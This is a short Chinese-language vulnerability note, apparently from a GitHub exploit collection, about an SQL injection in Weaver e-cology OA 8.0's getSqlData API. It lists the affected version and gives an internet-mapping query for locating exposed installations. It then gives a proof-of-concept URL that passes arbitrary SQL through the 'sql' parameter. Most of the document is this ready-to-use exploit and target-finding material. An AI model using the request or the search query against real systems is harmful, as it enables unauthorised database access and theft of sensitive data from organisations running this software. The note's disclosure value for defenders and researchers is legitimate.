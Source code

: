 # 

# 泛微OA E-Cology getSqlData SQL注入漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
泛微e-cology 8.0
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220520133932334](./images/202205201341203.png)

验证POC

```
/Api/portal/elementEcodeAddon/getSqlData?sql=select%20@@version
```

![image-20220520134115167](./images/202205201341226.png)

